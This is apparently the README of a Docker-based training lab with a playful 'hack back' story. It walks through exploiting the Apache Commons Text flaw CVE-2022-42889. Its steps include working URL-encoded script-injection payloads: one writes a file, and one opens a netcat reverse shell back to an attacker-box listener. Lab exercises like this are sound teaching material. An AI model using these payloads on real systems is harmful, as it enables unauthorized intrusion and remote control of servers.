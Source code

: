 # LAB AUDITION

## PREREQUISITE
+ git
+ docker && docker compose

## SETUP THE ENVIRONMENT
+ `git clone https://github.com/kcoble/lab-audition`
+ `cd lab-audition`
+ `docker compose up`

### Configure the Kali Attack Box
+ `docker exec -it $(docker ps -aqf "name=attack-box") /bin/bash`
+ In the interactive shell, type `apt update && apt -y install netcat-traditional curl`

## CHALLENGES
## Scenario
Globomantics is under cyber seige by the nefarious Dark Kittens Collective hacking conglomerate. As a member of the Globomantics security team, you've just been authorized corporate cover by the board to "hack back" in an attempt to take down these crafty cats. We've got a tip that the Dark Kittens Collective is running a web server at 10.0.0.3:8080, let's check it out!

### Enumeration
+ In the interactive attack box shell, type...
  + `curl -v '10.0.0.3:8080'`
  + `echo "VXNlIHNlYXJjaCBwYXJhbWV0ZXIgZm9yIE1GQQ==" | base64 -d`
  + `curl -XGET '10.0.0.3:8080/search?n=ghost'` (optional: repeat to see MFA code change)
+ We've found the Dark Kittens Collective Multi-Factor Authentication Generator (may come in handy later *future lab storyline enhancement*). This Apache Tomcat webserver (because of course it is) definitely uses scripting and some string replacement functionality. Cue research and we find there is a recently discovered vulnerability in Apache Commons Text that may come in handy if the Dark Kittens Collective hasn't patched yet! Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-42889

### Verification
+ Since this is a takedown, we have no reason for stealth and want to let these Dark Kittens know we are after them so to verify the vulnerability we're going to drop a calling card on the webserver.
+ Tip: Make sure to urlencode the script line so special characters are properly interpreted.
  + To leave a calling card in /tmp/pwned, type `docker exec -it $(docker ps -aqf "name=attack-box") curl -XGET '10.0.0.3:8080/search?n=%24%7Bscript%3Ajavascript%3Ajava.lang.Runtime.getRuntime%28%29.exec%28%27touch%20%2Ftmp%2Fpwned%27%29%7D'`
  + To verify our calling card is on the webserver, type `docker exec -it $(docker ps -aqf "name=web-server") ls /tmp` 
    + *In real life, the Dark Kittens Collective webserver wouldn't be running in a local docker container (unless you are a hacker cat!) so we wouldn't be able to run this command.*

### Access
+ Leaving calling cards is cool, but we need more to take down these cats. Let's use the same proof of concept to get a reverse shell on the webserver.
+ In the interactive attack box shell, setup a listener `nc -nlvp 8888`
+ To iniative the reverse shell, run `docker exec -it $(docker ps -aqf "name=attack-box") curl -XGET '10.0.0.3:8080/search?n=%24%7Bscript%3Ajavascript%3Ajava.lang.Runtime.getRuntime%28%29.exec%28%27nc%2010.0.0.7%208888%20-e%20%2Fbin%2Fbash%27%29%7D'`
  + Verify access, in the listener window see the connect line and type `id`
  + **Install the lazer pointer program and watch chaos of the Dark Kittens Collective as they destory each other from within.**
